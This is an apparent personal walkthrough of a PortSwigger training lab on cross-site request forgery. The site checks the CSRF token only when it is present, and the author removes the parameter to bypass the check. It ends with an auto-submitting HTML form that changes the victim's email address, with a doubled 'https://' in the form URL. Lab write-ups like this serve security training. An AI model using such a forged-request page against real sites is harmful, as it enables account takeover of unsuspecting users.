






### CSRF where token validation depends on token being present : PRACTITIONER

---

Given credentials `wiener:peter`, we need to create a CSRF attack to change the email of the victim user.

Logging in with the given credentials.



We see this page.



We know that the update email is vulnerable to CSRF.
- Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.



Sending this request we change the email normally.
- Trying to play with the `csrf` parameter by changing its value.



We can't play with, lets try to remove it entirely and see if the website checks for it.



> We see that it responds normally and it works.

Now we have a basis for a CSRF attack.
* Relevant action.
* All parameters are known.
* Using session cookies to track users.

> Crafting an HTML payload similar to [[Portswigger/CSRF/Lab 1|Lab 1]].

```HTML
<html> 
	<body> 
		<form action="https://https://0a7f00db044ac6e3817dde74004400da.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="mins1@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

Putting this HTML page in the exploit server.



Delivering the exploit to victim to complete the lab.

---
